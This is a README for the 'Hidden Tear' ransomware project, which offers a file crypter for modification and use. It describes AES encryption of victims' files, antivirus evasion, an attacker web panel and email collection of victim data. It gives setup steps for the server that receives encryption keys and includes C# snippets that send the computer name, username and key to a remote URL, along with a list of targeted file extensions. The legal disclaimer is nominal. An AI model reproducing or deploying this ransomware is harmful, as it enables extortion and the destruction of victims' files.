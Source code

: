          _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
It's a ransomware-like file crypter sample which can be modified for specific purposes. 

**Features**
* Uses AES algorithm to encrypt files.
* Sends encryption key to a server.
* Encrypted files can be decrypt in decrypter program with encryption key.
* Creates a text file in Desktop with given message.
* Small file size (12 KB)
* Isn't detected by antivirus programs (15/08/2015) http://nodistribute.com/result/6a4jDwi83Fzt - Do not scan with VirusTotal or similar sites.
* This project was updated by Virgula0 and coded by Uktu Sen.

**New features:**
* A new advanced server script was added that saves data into database.
* All informations are sent if there is an internet connection and the ransomware wait for it if there isn't.
* You can see all target information with Server Attacker panel.
* Script can also send you an email with gathered data.
* It can also encrypt .exe files and no longer gets collisions with other processes.
* It now encrypts a wider variety of file types and has a changing desktop icon with information about the attack.
* Hidden Tear Decryptor now advises if files have been decrypted or not.
* Hidden Tear Decryptor now is able to decrypt the same directories of hidden-tear ransomware.
* Hidden Tear changes default Windows icon of desktop if decryption is succesfully finished.
* A bug that could delete a part of the passcode while sending has been removed.

***************************************************************************************************************************
If you want, you can send some BTC for this re-work and support me.
* Address: 1HfwYmCDiHYRxzcbpDf7vSKfv8g9Y1MgpW | Or you can scan QR code named donation_btc_address.png in the main path
* Paypal: https://paypal.me/Virgula
* Ethereum 0x25119edFC9aA4D5beb40F24f5A759c4CA0263A54
* Bitcoin Cash: qzmd7kn87q5dkmkzalwu6pct82e68skzksxdfxxd0a

Thank You!								  
***************************************************************************************************************************

**Demonstration Video**

https://www.youtube.com/watch?v=0IvD9Sky9as

Warning: in that video wasn't shown the attacker panel but only the key saved into the file to make the video lasts less.

**Usage**

* You need to have a web server which supports PHP. Change this line with your URL, using an HTTPS connection to avoid eavesdropping.

  `string targetURL = "https://www.example.com/Server/write.php";`

  * Default Username and password for webpanel (in check.php file) are -> Username: test | Password: test
  * Import SQL table in your database importing the file: import.sql
  * Set you database credetials in the file: connect_db.php
  * If you want also write a file for every virus execution go to file `write.php` and uncomment lines 37 to 43. For privacy of information this is not recommended.
  * Set your email to get information also by email (don't write your PERSONAL email) in line 47 of file write.php

* The script should write the GET parameter into a database and optionally into a text file. Sending process running in `SendPassword()` function:

  ```
        string info = "?computer_name=" + computerName + "&userName=" + userName + "&password=" + password + "&allow=ransom";
        var fullUrl = targetURL + info;
        var conent = new System.Net.WebClient().DownloadString(fullUrl);
  
  ```
* Target file extensions can be changed. Default list:
```
var validExtensions = new[]{".txt", ".jar", ".exe", ".dat", ".contact" , ".settings", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".py", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".htm", ".xml", ".psd" , ".pdf" , ".dll" , ".c" , ".cs", ".mp3" , ".mp4", ".f3d" , ".dwg" , ".cpp" , ".zip" , ".rar" , ".mov" , ".rtf" , ".bmp" , ".mkv" , ".avi" , ".apk" , ".lnk" , ".iso", ".7-zip", ".ace", ".arj", ".bz2", ".cab", ".gzip", ".lzh", ".tar", ".uue", ".xz", ".z", ".001", ".mpeg", ".mp3", ".mpg", ".core", ".crproj" , ".pdb", ".ico" , ".pas" , ".db" ,  ".torrent" };
```

* PLEASE DON'T ADD .INI EXTENSION BECAUSE THE CONFILCT WITH THESE FILES WILL CRASH YOUR SCRIPT.
* In this re-upload there is a function that waits for internet connection before sending password to the database:

```
//check for internet connection
public static bool CheckForInternetConnection()
{
    try
    {
        using (var client = new WebClient())
        {
            using (var stream = client.OpenRead("https://www.google.com"))
            {
                return true;
            }
        }
    }
    catch
    {
        return false;
    }
}
```

**Legal Warning** 

While this may be helpful for some, there are significant risks. Hidden Tear may be used for educational purposes only. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running Hidden Tear, even though you are innocent.
